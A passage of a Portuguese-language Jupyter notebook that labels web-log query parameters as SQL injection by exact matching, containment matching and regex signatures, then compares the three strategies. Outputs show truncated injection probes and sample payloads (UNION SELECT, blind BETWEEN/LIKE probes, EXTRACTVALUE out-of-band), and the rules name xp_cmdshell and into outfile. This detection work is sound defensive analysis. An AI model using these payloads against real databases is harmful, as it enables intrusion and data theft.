            "param_value_match_key",
            "tipo_match_exato_final"
        ]
    ].head(10)
)

Shape de df_match_exato: (3627, 28)

Distribuição do target por match exato:
target_sqli_match_exato
0    3627
Name: count, dtype: Int64

Distribuição de tipo na visão de match exato:
tipo_match_exato_final
No_Match    3627
Name: count, dtype: int64

Quantidade de matches ambíguos:
match_exato_ambiguous
0    3627
Name: count, dtype: Int64

Exemplos com match exato:


,log_id,param_name_raw,param_value_raw,param_value_decoded,param_value_match_key,payload_example,tipo_match_exato,tipo_match_exato_final,match_exato_ambiguous



Exemplos sem match exato:


,log_id,param_name_raw,param_value_raw,param_value_decoded,param_value_match_key,tipo_match_exato_final
0,1,q,test,test,test,No_Match
1,2,q,test,test,test,No_Match
2,2,SLHJ,1989%20AND%201%3D1%20UNION%20ALL%20SELECT%201%...,"1989 AND 1=1 UNION ALL SELECT 1,NULL,'<script>...","1989 and 1=1 union all select 1,null,'<script>...",No_Match
3,3,q,test,test,test,No_Match
4,4,q,%25%4E%25%6A%25%59%25%34%25%4E%25%77%25%3D%25%3D,6687,6687,No_Match
5,5,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%77%25%...,"test,)(')"".)((","test,)(')"".)((",No_Match
6,6,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%64%25%...,"test'icThMp<'"">IrYqwB","test'icthmp<'"">iryqwb",No_Match
7,7,q,%25%64%25%47%25%56%25%7A%25%64%25%41%25%3D%25%3D,test,test,No_Match
8,8,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') anD 6861 bETween 4608 anD ...,test') and 6861 between 4608 and 4608-- zavp,No_Match
9,9,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') aND 6947 BetweEn 6947 aND ...,test') and 6947 between 6947 and 6947-- jrgn,No_Match


### 13. Correspondência por contenção entre os parâmetros do log e a dimensão de payloads

In [14]:
df_params_contains_base = (
    df_params
    .reset_index(drop=True)
    .reset_index()
    .rename(columns={"index": "param_row_id"})
)

payload_candidates = (
    df_payload_dim[
        [
            "payload_match_key",
            "payload_example",
            "qtd_payloads_origem",
            "qtd_tipos_distintos",
            "tipos_encontrados",
            "tipo_match_exato"
        ]
    ]
    .copy()
)

payload_candidates = payload_candidates[
    payload_candidates["payload_match_key"].astype(str).str.strip() != ""
].copy()

payload_candidates["payload_key_length"] = (
    payload_candidates["payload_match_key"].astype(str).str.len()
)

# prioriza payloads mais longos e específicos
payload_candidates = payload_candidates.sort_values(
    by=["payload_key_length", "qtd_payloads_origem"],
    ascending=[False, False]
).reset_index(drop=True)

match_rows = []

for row in df_params_contains_base[
    [
        "param_row_id",
        "log_id",
        "param_position",
        "param_name_raw",
        "param_value_raw",
        "param_value_decoded",
        "param_value_match_key",
        "status",
        "request_success",
        "request_time",
        "body_bytes_sent"
    ]
].itertuples(index=False):

    param_value = "" if pd.isna(row.param_value_match_key) else str(row.param_value_match_key).strip()

    if not param_value:
        continue

    for cand in payload_candidates.itertuples(index=False):
        payload_key = str(cand.payload_match_key).strip()

        if payload_key and payload_key in param_value:
            match_rows.append(
                {
                    "param_row_id": row.param_row_id,
                    "log_id": row.log_id,
                    "param_position": row.param_position,
                    "param_name_raw": row.param_name_raw,
                    "param_value_raw": row.param_value_raw,
                    "param_value_decoded": row.param_value_decoded,
                    "param_value_match_key": row.param_value_match_key,
                    "status": row.status,
                    "request_success": row.request_success,
                    "request_time": row.request_time,
                    "body_bytes_sent": row.body_bytes_sent,
                    "matched_payload_key": cand.payload_match_key,
                    "payload_example": cand.payload_example,
                    "qtd_payloads_origem": cand.qtd_payloads_origem,
                    "qtd_tipos_distintos": cand.qtd_tipos_distintos,
                    "tipos_encontrados": cand.tipos_encontrados,
                    "tipo_match_exato": cand.tipo_match_exato,
                    "payload_key_length": cand.payload_key_length
                }
            )

# garante colunas mesmo quando não houver matches
detail_columns = [
    "param_row_id",
    "log_id",
    "param_position",
    "param_name_raw",
    "param_value_raw",
    "param_value_decoded",
    "param_value_match_key",
    "status",
    "request_success",
    "request_time",
    "body_bytes_sent",
    "matched_payload_key",
    "payload_example",
    "qtd_payloads_origem",
    "qtd_tipos_distintos",
    "tipos_encontrados",
    "tipo_match_exato",
    "payload_key_length"
]

df_contains_detail = pd.DataFrame(match_rows, columns=detail_columns)

if df_contains_detail.empty:
    df_contains_summary = pd.DataFrame(
        columns=[
            "param_row_id",
            "contains_match_count",
            "contains_best_payload_example",
            "contains_tipos_encontrados",
            "contains_tipos_encontrados_str",
            "tipo_contains_final",
            "contains_ambiguous"
        ]
    )
else:
    df_contains_summary = (
        df_contains_detail
        .groupby("param_row_id", dropna=False)
        .agg(
            contains_match_count=("matched_payload_key", "size"),
            contains_best_payload_example=("payload_example", "first"),
            contains_tipos_encontrados=("tipo_match_exato", lambda x: sorted(set(x)))
        )
        .reset_index()
    )

    df_contains_summary["contains_tipos_encontrados_str"] = (
        df_contains_summary["contains_tipos_encontrados"]
        .apply(lambda x: " | ".join(map(str, x)))
    )

    df_contains_summary["tipo_contains_final"] = (
        df_contains_summary["contains_tipos_encontrados"]
        .apply(lambda x: x[0] if len(x) == 1 else "Ambiguous")
    )

    df_contains_summary["contains_ambiguous"] = (
        df_contains_summary["contains_tipos_encontrados"]
        .apply(lambda x: 1 if len(x) > 1 else 0)
        .astype("Int64")
    )

df_match_contains = df_params_contains_base.merge(
    df_contains_summary,
    on="param_row_id",
    how="left"
)

df_match_contains["target_sqli_contains"] = (
    df_match_contains["contains_match_count"].notna()
).astype("Int64")

df_match_contains["contains_ambiguous"] = (
    df_match_contains["contains_ambiguous"]
    .fillna(0)
    .astype("Int64")
)

df_match_contains["tipo_contains_final"] = (
    df_match_contains["tipo_contains_final"]
    .fillna("No_Match")
)

df_match_contains["contains_tipos_encontrados_str"] = (
    df_match_contains["contains_tipos_encontrados_str"]
    .fillna("No_Match")
)

print("Shape de df_contains_detail:", df_contains_detail.shape)
print("Shape de df_match_contains:", df_match_contains.shape)

print("\nDistribuição do target por contenção:")
print(df_match_contains["target_sqli_contains"].value_counts(dropna=False).sort_index())

print("\nDistribuição de tipo na visão por contenção:")
print(df_match_contains["tipo_contains_final"].value_counts(dropna=False))

print("\nQuantidade de matches ambíguos por contenção:")
print(df_match_contains["contains_ambiguous"].value_counts(dropna=False).sort_index())

print("\nExemplos com match por contenção:")
display(
    df_match_contains[
        df_match_contains["target_sqli_contains"] == 1
    ][
        [
            "log_id",
            "param_name_raw",
            "param_value_raw",
            "param_value_decoded",
            "param_value_match_key",
            "contains_match_count",
            "contains_best_payload_example",
            "contains_tipos_encontrados_str",
            "tipo_contains_final",
            "contains_ambiguous"
        ]
    ].head(10)
)

print("\nExemplos sem match por contenção:")
display(
    df_match_contains[
        df_match_contains["target_sqli_contains"] == 0
    ][
        [
            "log_id",
            "param_name_raw",
            "param_value_raw",
            "param_value_decoded",
            "param_value_match_key",
            "tipo_contains_final"
        ]
    ].head(10)
)

print("\nDetalhe dos matches por contenção:")
if df_contains_detail.empty:
    print("Nenhum match por contenção foi encontrado.")
else:
    display(
        df_contains_detail[
            [
                "log_id",
                "param_name_raw",
                "param_value_decoded",
                "matched_payload_key",
                "payload_example",
                "tipo_match_exato",
                "payload_key_length"
            ]
        ].head(15)
    )

Shape de df_contains_detail: (0, 18)
Shape de df_match_contains: (3627, 27)

Distribuição do target por contenção:
target_sqli_contains
0    3627
Name: count, dtype: Int64

Distribuição de tipo na visão por contenção:
tipo_contains_final
No_Match    3627
Name: count, dtype: int64

Quantidade de matches ambíguos por contenção:
contains_ambiguous
0    3627
Name: count, dtype: Int64

Exemplos com match por contenção:


/tmp/ipykernel_688/2356045429.py:162: FutureWarning: Downcasting object dtype arrays on .fillna, .ffill, .bfill is deprecated and will change in a future version. Call result.infer_objects(copy=False) instead. To opt-in to the future behavior, set `pd.set_option('future.no_silent_downcasting', True)`
  .fillna(0)


,log_id,param_name_raw,param_value_raw,param_value_decoded,param_value_match_key,contains_match_count,contains_best_payload_example,contains_tipos_encontrados_str,tipo_contains_final,contains_ambiguous



Exemplos sem match por contenção:


,log_id,param_name_raw,param_value_raw,param_value_decoded,param_value_match_key,tipo_contains_final
0,1,q,test,test,test,No_Match
1,2,q,test,test,test,No_Match
2,2,SLHJ,1989%20AND%201%3D1%20UNION%20ALL%20SELECT%201%...,"1989 AND 1=1 UNION ALL SELECT 1,NULL,'<script>...","1989 and 1=1 union all select 1,null,'<script>...",No_Match
3,3,q,test,test,test,No_Match
4,4,q,%25%4E%25%6A%25%59%25%34%25%4E%25%77%25%3D%25%3D,6687,6687,No_Match
5,5,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%77%25%...,"test,)(')"".)((","test,)(')"".)((",No_Match
6,6,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%64%25%...,"test'icThMp<'"">IrYqwB","test'icthmp<'"">iryqwb",No_Match
7,7,q,%25%64%25%47%25%56%25%7A%25%64%25%41%25%3D%25%3D,test,test,No_Match
8,8,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') anD 6861 bETween 4608 anD ...,test') and 6861 between 4608 and 4608-- zavp,No_Match
9,9,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') aND 6947 BetweEn 6947 aND ...,test') and 6947 between 6947 and 6947-- jrgn,No_Match



Detalhe dos matches por contenção:
Nenhum match por contenção foi encontrado.


### 14. Diagnóstico da estratégia de contenção

In [15]:

# exemplos suspeitos da fato já decodificada
suspeitos = df_params[
    df_params["param_value_match_key"].astype(str).str.contains(
        r"union|select|and|or|between|like|--|#|/\*|xp_cmdshell|information_schema|extractvalue|updatexml",
        case=False,
        na=False,
        regex=True
    )
].copy()

print("Quantidade de parâmetros suspeitos pelo conteúdo:")
print(len(suspeitos))

print("\nAmostra de parâmetros suspeitos:")
display(
    suspeitos[
        [
            "log_id",
            "param_name_raw",
            "param_value_raw",
            "param_value_decoded",
            "param_value_match_key"
        ]
    ].head(15)
)

print("\nAmostra de payloads da dimensão:")
display(
    df_payload_dim[
        [
            "payload_match_key",
            "payload_example",
            "tipo_match_exato"
        ]
    ].head(15)
)

# teste manual: verificar se algum payload da dimensão aparece em alguns suspeitos
payload_keys = df_payload_dim["payload_match_key"].dropna().astype(str).tolist()

diagnostico_rows = []

for row in suspeitos.head(20).itertuples(index=False):
    valor = str(row.param_value_match_key)
    encontrados = [p for p in payload_keys if p and p in valor]

    diagnostico_rows.append({
        "log_id": row.log_id,
        "param_name_raw": row.param_name_raw,
        "param_value_match_key": valor,
        "qtd_payloads_contidos": len(encontrados),
        "payloads_contidos_amostra": encontrados[:5]
    })

df_diagnostico_contains = pd.DataFrame(diagnostico_rows)

print("\nDiagnóstico da contenção em 20 exemplos suspeitos:")
display(df_diagnostico_contains)

Quantidade de parâmetros suspeitos pelo conteúdo:
1081

Amostra de parâmetros suspeitos:


,log_id,param_name_raw,param_value_raw,param_value_decoded,param_value_match_key
2,2,SLHJ,1989%20AND%201%3D1%20UNION%20ALL%20SELECT%201%...,"1989 AND 1=1 UNION ALL SELECT 1,NULL,'<script>...","1989 and 1=1 union all select 1,null,'<script>..."
8,8,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') anD 6861 bETween 4608 anD ...,test') and 6861 between 4608 and 4608-- zavp
9,9,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') aND 6947 BetweEn 6947 aND ...,test') and 6947 between 6947 and 6947-- jrgn
10,10,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test' And 9212 BEtWEen 6425 And ...,test' and 9212 between 6425 and 6425-- tgok
11,11,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test' aND 6947 beTWEEN 6947 aND 69...,test' and 6947 between 6947 and 6947-- yoep
12,12,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%49%25%...,"test"" AnD 7760 betWeEn 1158 AnD 1...","test"" and 7760 between 1158 and 1158-- umxh"
13,13,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%49%25%...,"test"" ANd 6947 BetWEEN 6947 ANd ...","test"" and 6947 between 6947 and 6947-- baot"
14,14,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') anD 3006 lIKe 6025 anD ...,test') and 3006 like 6025 and ('gdmz' like 'gdmz
15,15,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') AnD 6947 LikE 6947 AnD ('a...,test') and 6947 like 6947 and ('ayaj' like 'ayaj
16,16,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test')) aND 6900 lIkE 8799 aND ...,test')) and 6900 like 8799 and (('wath' like '...



Amostra de payloads da dimensão:


,payload_match_key,payload_example,tipo_match_exato
0,' and '1'='1,' AND '1'='1,Ambiguous
1,' and '1'='1' #,' AND '1'='1' #,Comment_Based
2,' and '1'='1' --,' AND '1'='1' --,Comment_Based
3,' and '1'='1' /*,' AND '1'='1' /*,Comment_Based
4,' and '1'='2,' AND '1'='2,Boolean_Based
5,' and (select 1 from dual) is not null,' AND (SELECT 1 FROM dual) IS NOT NULL,Boolean_Based
6,' and (select count(*) from information_schema...,' AND (SELECT COUNT(*) FROM information_schema...,Boolean_Based
7,' and (select count(*) from information_schema...,' AND (SELECT COUNT(*) FROM information_schema...,Boolean_Based
8,' and (select count(*) from users)>0,' AND (SELECT COUNT(*) FROM users)>0,Boolean_Based
9,"' and (select extractvalue(null, concat(0x5c5c...","' AND (SELECT EXTRACTVALUE(NULL, CONCAT(0x5c5c...",OOB



Diagnóstico da contenção em 20 exemplos suspeitos:


,log_id,param_name_raw,param_value_match_key,qtd_payloads_contidos,payloads_contidos_amostra
0,2,SLHJ,"1989 and 1=1 union all select 1,null,'<script>...",0,[]
1,8,q,test') and 6861 between 4608 and 4608-- zavp,0,[]
2,9,q,test') and 6947 between 6947 and 6947-- jrgn,0,[]
3,10,q,test' and 9212 between 6425 and 6425-- tgok,0,[]
4,11,q,test' and 6947 between 6947 and 6947-- yoep,0,[]
5,12,q,"test"" and 7760 between 1158 and 1158-- umxh",0,[]
6,13,q,"test"" and 6947 between 6947 and 6947-- baot",0,[]
7,14,q,test') and 3006 like 6025 and ('gdmz' like 'gdmz,0,[]
8,15,q,test') and 6947 like 6947 and ('ayaj' like 'ayaj,0,[]
9,16,q,test')) and 6900 like 8799 and (('wath' like '...,0,[]


### 15. Extração de assinaturas parciais para correspondência heurística

In [16]:
df_params_signature = df_params.copy()

signature_rules = [
    ("union_all_select", r"\bunion\s+all\s+select\b"),
    ("union_select", r"\bunion\s+select\b"),
    ("select_from", r"\bselect\b.*\bfrom\b"),
    ("information_schema", r"\binformation_schema\b"),
    ("xp_cmdshell", r"\bxp_cmdshell\b"),
    ("extractvalue", r"\bextractvalue\b"),
    ("updatexml", r"\bupdatexml\b"),
    ("load_file", r"\bload_file\b"),
    ("outfile", r"\binto\s+outfile\b"),
    ("or_true_condition", r"\bor\b\s+['\"]?1['\"]?\s*=\s*['\"]?1['\"]?"),
    ("and_true_condition", r"\band\b\s+['\"]?1['\"]?\s*=\s*['\"]?1['\"]?"),
    ("comment_double_dash", r"--"),
    ("comment_hash", r"#"),
    ("comment_block", r"/\*"),
    ("between_injection", r"\bbetween\b.*\band\b.*(--|#|/\*)"),
    ("like_injection", r"\blike\b.*\band\b.*\blike\b"),
]

def extract_signatures(text):
    if pd.isna(text):
        return []
    value = str(text).lower()
    found = [name for name, pattern in signature_rules if re.search(pattern, value, flags=re.IGNORECASE)]
    return found

df_params_signature["signature_hits"] = df_params_signature["param_value_match_key"].apply(extract_signatures)
df_params_signature["signature_hit_count"] = df_params_signature["signature_hits"].apply(len)
df_params_signature["target_sqli_signature"] = (df_params_signature["signature_hit_count"] > 0).astype("Int64")
df_params_signature["signature_hits_str"] = df_params_signature["signature_hits"].apply(
    lambda x: " | ".join(x) if x else "No_Match"
)

print("Shape de df_params_signature:", df_params_signature.shape)

print("\nDistribuição do target por assinaturas:")
print(df_params_signature["target_sqli_signature"].value_counts(dropna=False).sort_index())

print("\nAssinaturas mais frequentes:")
display(
    df_params_signature[df_params_signature["target_sqli_signature"] == 1]
    .explode("signature_hits")["signature_hits"]
    .value_counts()
    .reset_index()
    .rename(columns={"index": "signature", "signature_hits": "count"})
    .head(15)
)

print("\nExemplos com match por assinatura:")
display(
    df_params_signature[
        df_params_signature["target_sqli_signature"] == 1
    ][
        [
            "log_id",
            "param_name_raw",
            "param_value_raw",
            "param_value_decoded",
            "param_value_match_key",
            "signature_hit_count",
            "signature_hits_str"
        ]
    ].head(15)
)

Shape de df_params_signature: (3627, 23)

Distribuição do target por assinaturas:
target_sqli_signature
0    2649
1     978
Name: count, dtype: Int64

Assinaturas mais frequentes:


,count,count
0,comment_double_dash,658
1,between_injection,464
2,like_injection,464
3,union_select,132
4,comment_hash,28
5,select_from,26
6,union_all_select,2
7,information_schema,2
8,and_true_condition,2
9,xp_cmdshell,2



Exemplos com match por assinatura:


,log_id,param_name_raw,param_value_raw,param_value_decoded,param_value_match_key,signature_hit_count,signature_hits_str
2,2,SLHJ,1989%20AND%201%3D1%20UNION%20ALL%20SELECT%201%...,"1989 AND 1=1 UNION ALL SELECT 1,NULL,'<script>...","1989 and 1=1 union all select 1,null,'<script>...",8,union_all_select | select_from | information_s...
8,8,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') anD 6861 bETween 4608 anD ...,test') and 6861 between 4608 and 4608-- zavp,2,comment_double_dash | between_injection
9,9,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') aND 6947 BetweEn 6947 aND ...,test') and 6947 between 6947 and 6947-- jrgn,2,comment_double_dash | between_injection
10,10,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test' And 9212 BEtWEen 6425 And ...,test' and 9212 between 6425 and 6425-- tgok,2,comment_double_dash | between_injection
11,11,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test' aND 6947 beTWEEN 6947 aND 69...,test' and 6947 between 6947 and 6947-- yoep,2,comment_double_dash | between_injection
12,12,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%49%25%...,"test"" AnD 7760 betWeEn 1158 AnD 1...","test"" and 7760 between 1158 and 1158-- umxh",2,comment_double_dash | between_injection
13,13,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%49%25%...,"test"" ANd 6947 BetWEEN 6947 ANd ...","test"" and 6947 between 6947 and 6947-- baot",2,comment_double_dash | between_injection
14,14,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') anD 3006 lIKe 6025 anD ...,test') and 3006 like 6025 and ('gdmz' like 'gdmz,1,like_injection
15,15,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') AnD 6947 LikE 6947 AnD ('a...,test') and 6947 like 6947 and ('ayaj' like 'ayaj,1,like_injection
16,16,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test')) aND 6900 lIkE 8799 aND ...,test')) and 6900 like 8799 and (('wath' like '...,1,like_injection


### 16. Comparação entre as estratégias de detecção

In [17]:
df_compare_targets = df_params.reset_index(drop=True).reset_index().rename(columns={"index": "param_row_id"})

df_compare_targets["target_match_exato"] = df_match_exato.reset_index(drop=True)["target_sqli_match_exato"]
df_compare_targets["tipo_match_exato_final"] = df_match_exato.reset_index(drop=True)["tipo_match_exato_final"]

df_compare_targets["target_contains"] = df_match_contains.reset_index(drop=True)["target_sqli_contains"]
df_compare_targets["tipo_contains_final"] = df_match_contains.reset_index(drop=True)["tipo_contains_final"]

df_compare_targets["target_signature"] = df_params_signature.reset_index(drop=True)["target_sqli_signature"]
df_compare_targets["signature_hit_count"] = df_params_signature.reset_index(drop=True)["signature_hit_count"]
df_compare_targets["signature_hits_str"] = df_params_signature.reset_index(drop=True)["signature_hits_str"]

comparativo_resumo = pd.DataFrame({
    "estrategia": ["match_exato", "contains", "signature"],
    "positivos": [
        int(df_compare_targets["target_match_exato"].sum()),
        int(df_compare_targets["target_contains"].sum()),
        int(df_compare_targets["target_signature"].sum())
    ],
    "total_parametros": [len(df_compare_targets)] * 3
})

comparativo_resumo["proporcao"] = (
    comparativo_resumo["positivos"] / comparativo_resumo["total_parametros"]
)

print("Shape de df_compare_targets:", df_compare_targets.shape)

print("\nResumo comparativo das estratégias:")
display(comparativo_resumo)

print("\nTabela de contingência: match exato x assinatura")
display(
    pd.crosstab(
        df_compare_targets["target_match_exato"],
        df_compare_targets["target_signature"],
        rownames=["match_exato"],
        colnames=["signature"],
        dropna=False
    )
)

print("\nTabela de contingência: contenção x assinatura")
display(
    pd.crosstab(
        df_compare_targets["target_contains"],
        df_compare_targets["target_signature"],
        rownames=["contains"],
        colnames=["signature"],
        dropna=False
    )
)

print("\nExemplos positivos por assinatura e negativos no match exato:")
display(
    df_compare_targets[
        (df_compare_targets["target_signature"] == 1) &
        (df_compare_targets["target_match_exato"] == 0)
    ][
        [
            "log_id",
            "param_name_raw",
            "param_value_raw",
            "param_value_decoded",
            "target_match_exato",
            "target_signature",
            "signature_hit_count",
            "signature_hits_str"
        ]
    ].head(15)
)

Shape de df_compare_targets: (3627, 27)

Resumo comparativo das estratégias:


,estrategia,positivos,total_parametros,proporcao
0,match_exato,0,3627,0.000000
1,contains,0,3627,0.000000
2,signature,978,3627,0.269644



Tabela de contingência: match exato x assinatura


signature,0,1
match_exato,,
0,2649,978



Tabela de contingência: contenção x assinatura


signature,0,1
contains,,
0,2649,978



Exemplos positivos por assinatura e negativos no match exato:


,log_id,param_name_raw,param_value_raw,param_value_decoded,target_match_exato,target_signature,signature_hit_count,signature_hits_str
2,2,SLHJ,1989%20AND%201%3D1%20UNION%20ALL%20SELECT%201%...,"1989 AND 1=1 UNION ALL SELECT 1,NULL,'<script>...",0,1,8,union_all_select | select_from | information_s...
8,8,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') anD 6861 bETween 4608 anD ...,0,1,2,comment_double_dash | between_injection
9,9,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') aND 6947 BetweEn 6947 aND ...,0,1,2,comment_double_dash | between_injection
10,10,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test' And 9212 BEtWEen 6425 And ...,0,1,2,comment_double_dash | between_injection
11,11,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test' aND 6947 beTWEEN 6947 aND 69...,0,1,2,comment_double_dash | between_injection
12,12,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%49%25%...,"test"" AnD 7760 betWeEn 1158 AnD 1...",0,1,2,comment_double_dash | between_injection
13,13,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%49%25%...,"test"" ANd 6947 BetWEEN 6947 ANd ...",0,1,2,comment_double_dash | between_injection
14,14,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') anD 3006 lIKe 6025 anD ...,0,1,1,like_injection
15,15,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') AnD 6947 LikE 6947 AnD ('a...,0,1,1,like_injection
16,16,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test')) aND 6900 lIkE 8799 aND ...,0,1,1,like_injection


### 17. Consolidação da base analítica final

In [18]:
df_analitica = df_params.reset_index(drop=True).copy()

# targets e campos do match exato
df_analitica["target_match_exato"] = df_match_exato.reset_index(drop=True)["target_sqli_match_exato"]
df_analitica["tipo_match_exato_final"] = df_match_exato.reset_index(drop=True)["tipo_match_exato_final"]
df_analitica["match_exato_ambiguous"] = df_match_exato.reset_index(drop=True)["match_exato_ambiguous"]

# targets e campos da contenção
df_analitica["target_contains"] = df_match_contains.reset_index(drop=True)["target_sqli_contains"]
df_analitica["tipo_contains_final"] = df_match_contains.reset_index(drop=True)["tipo_contains_final"]
df_analitica["contains_ambiguous"] = df_match_contains.reset_index(drop=True)["contains_ambiguous"]

# targets e campos da heurística por assinatura
df_analitica["target_signature"] = df_params_signature.reset_index(drop=True)["target_sqli_signature"]
df_analitica["signature_hit_count"] = df_params_signature.reset_index(drop=True)["signature_hit_count"]
df_analitica["signature_hits_str"] = df_params_signature.reset_index(drop=True)["signature_hits_str"]

# target principal provisório para EDA e fases seguintes:
# prioridade: match exato > contenção > assinatura
df_analitica["target_final_binario"] = (
    (
        (df_analitica["target_match_exato"] == 1) |
        (df_analitica["target_contains"] == 1) |
        (df_analitica["target_signature"] == 1)
    )
    .astype("Int64")
)

# tipo heurístico inferido pelas assinaturas
df_analitica["tipo_sqli_heuristico"] = "No_Match"

df_analitica.loc[
    df_analitica["target_signature"] == 1,
    "tipo_sqli_heuristico"
] = df_analitica.loc[
    df_analitica["target_signature"] == 1,
    "signature_hits_str"
].values

# NOVA COLUNA:
# tipo do SQLi vindo especificamente da dim_payloads
# prioridade: match exato > contenção > No_Match
df_analitica["tipo_sqli_dim_payloads"] = "No_Match"

df_analitica.loc[
    df_analitica["target_contains"] == 1,
    "tipo_sqli_dim_payloads"
] = df_analitica.loc[
    df_analitica["target_contains"] == 1,
    "tipo_contains_final"
].values

df_analitica.loc[
    df_analitica["target_match_exato"] == 1,
    "tipo_sqli_dim_payloads"
] = df_analitica.loc[
    df_analitica["target_match_exato"] == 1,
    "tipo_match_exato_final"
].values

# tipo final provisório:
# 1) se houver tipo por match exato, usa ele
# 2) senão, se houver tipo por contenção, usa ele
# 3) senão, marca como Heuristic_Only quando só a assinatura detectar
# 4) caso contrário, No_Match
df_analitica["tipo_final_provisorio"] = "No_Match"

df_analitica.loc[
    df_analitica["target_signature"] == 1,
    "tipo_final_provisorio"
] = "Heuristic_Only"

df_analitica.loc[
    df_analitica["target_contains"] == 1,
    "tipo_final_provisorio"
] = df_analitica.loc[
    df_analitica["target_contains"] == 1,
    "tipo_contains_final"
].values

df_analitica.loc[
    df_analitica["target_match_exato"] == 1,
    "tipo_final_provisorio"
] = df_analitica.loc[
    df_analitica["target_match_exato"] == 1,
    "tipo_match_exato_final"
].values

print("Shape de df_analitica:", df_analitica.shape)

print("\nDistribuição do target_final_binario:")
print(df_analitica["target_final_binario"].value_counts(dropna=False).sort_index())

print("\nDistribuição do tipo_sqli_dim_payloads:")
print(df_analitica["tipo_sqli_dim_payloads"].value_counts(dropna=False))

print("\nDistribuição do tipo_final_provisorio:")
print(df_analitica["tipo_final_provisorio"].value_counts(dropna=False))

print("\nPrévia da base analítica final:")
display(
    df_analitica[
        [
            "log_id",
            "param_name_raw",
            "param_value_raw",
            "param_value_decoded",
            "status",
            "request_success",
            "request_time",
            "body_bytes_sent",
            "target_match_exato",
            "target_contains",
            "target_signature",
            "target_final_binario",
            "tipo_sqli_dim_payloads",
            "tipo_sqli_heuristico",
            "tipo_final_provisorio",
            "signature_hits_str"
        ]
    ].head(15)
)

Shape de df_analitica: (3627, 32)

Distribuição do target_final_binario:
target_final_binario
0    2649
1     978
Name: count, dtype: Int64

Distribuição do tipo_sqli_dim_payloads:
tipo_sqli_dim_payloads
No_Match    3627
Name: count, dtype: int64

Distribuição do tipo_final_provisorio:
tipo_final_provisorio
No_Match          2649
Heuristic_Only     978
Name: count, dtype: int64

Prévia da base analítica final:


,log_id,param_name_raw,param_value_raw,param_value_decoded,status,request_success,request_time,body_bytes_sent,target_match_exato,target_contains,target_signature,target_final_binario,tipo_sqli_dim_payloads,tipo_sqli_heuristico,tipo_final_provisorio,signature_hits_str
0,1,q,test,test,200,1,0.014,517,0,0,0,0,No_Match,No_Match,No_Match,No_Match
1,2,q,test,test,200,1,0.011,517,0,0,0,0,No_Match,No_Match,No_Match,No_Match
2,2,SLHJ,1989%20AND%201%3D1%20UNION%20ALL%20SELECT%201%...,"1989 AND 1=1 UNION ALL SELECT 1,NULL,'<script>...",200,1,0.011,517,0,0,1,1,No_Match,union_all_select | select_from | information_s...,Heuristic_Only,union_all_select | select_from | information_s...
3,3,q,test,test,200,1,0.021,517,0,0,0,0,No_Match,No_Match,No_Match,No_Match
4,4,q,%25%4E%25%6A%25%59%25%34%25%4E%25%77%25%3D%25%3D,6687,200,1,0.017,30,0,0,0,0,No_Match,No_Match,No_Match,No_Match
5,5,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%77%25%...,"test,)(')"".)((",200,1,0.010,30,0,0,0,0,No_Match,No_Match,No_Match,No_Match
6,6,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%64%25%...,"test'icThMp<'"">IrYqwB",200,1,0.011,30,0,0,0,0,No_Match,No_Match,No_Match,No_Match
7,7,q,%25%64%25%47%25%56%25%7A%25%64%25%41%25%3D%25%3D,test,200,1,0.010,30,0,0,0,0,No_Match,No_Match,No_Match,No_Match
8,8,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') anD 6861 bETween 4608 anD ...,200,1,0.011,30,0,0,1,1,No_Match,comment_double_dash | between_injection,Heuristic_Only,comment_double_dash | between_injection
9,9,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') aND 6947 BetweEn 6947 aND ...,200,1,0.011,30,0,0,1,1,No_Match,comment_double_dash | between_injection,Heuristic_Only,comment_double_dash | between_injection


### 18. Estatística descritiva das variáveis numéricas

In [19]:
df_eda = df_analitica.copy()

numeric_cols = [
    "request_time",
    "body_bytes_sent",
    "request_success",
    "param_position",
    "param_value_raw_length",
    "param_value_decoded_length",
    "param_value_was_changed",
    "signature_hit_count",
    "target_final_binario"
]

# garante conversão segura
for col in numeric_cols:
    df_eda[col] = pd.to_numeric(df_eda[col], errors="coerce")

def first_mode(series):
    s = series.dropna()
    if s.empty:
        return None
    mode_vals = s.mode()
    if mode_vals.empty:
        return None
